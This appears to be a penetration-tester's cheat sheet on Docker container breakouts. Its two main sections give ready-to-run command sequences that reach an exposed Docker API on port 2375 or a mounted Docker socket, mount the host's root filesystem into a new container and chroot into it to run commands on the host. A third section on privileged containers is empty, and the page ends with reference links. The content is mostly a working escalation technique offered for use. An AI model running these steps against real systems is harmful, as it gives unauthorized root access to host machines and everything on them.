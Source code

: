 # Docker Breakouts

## Misconfigured Docker Socket

```
//docker daemon is configured to listen on 2375 and 2376(encrypted) for API request
netstat -tlp

//verify if daemon is running below command shows docker info
curl localhost:2375/version | python3 -m json.tool

//Configure docker client to use the TCP Socket
export DOCKER_HOST="tcp://localhost:2375"

//now you can list docker images
docker images

//Mount root filesystem of host machine on /host directory of the container.
docker run -it -v /:/host/ ubuntu(respository):18.04(TAG) bash

//change to /host dir to list files
cd /host/
ls -l

//Use chroot on the /host directory.
chroot ./ bash

//now you broke out container and can execute commands on host
ps -eaf
find / -name searchquery 2>/dev/null


```

## Mounted Docker Socket

```
//Search for docker socket.
find / -name docker.socket 2>/dev/null

//By default docker client is configured to use /var/run/docker.sock unix socket which is a symlink
to /run/docker.sock.

//now you can list docker images
docker images

//Mount root filesystem of host machine on /host directory of the container.
docker run -it -v /:/host/ ubuntu(respository):18.04(TAG) bash

//change to /host dir to list files
cd /host/
ls -l

//Use chroot on the /host directory.
chroot ./ bash

//now you broke out container and can execute commands on host
ps -eaf
find / -name searchquery 2>/dev/null


```

## Privileged Container

```
```



### References

{% embed url="https://guif.re/linuxeop" %}

{% embed url="https://www.hackingarticles.in/docker-privilege-escalation/" %}

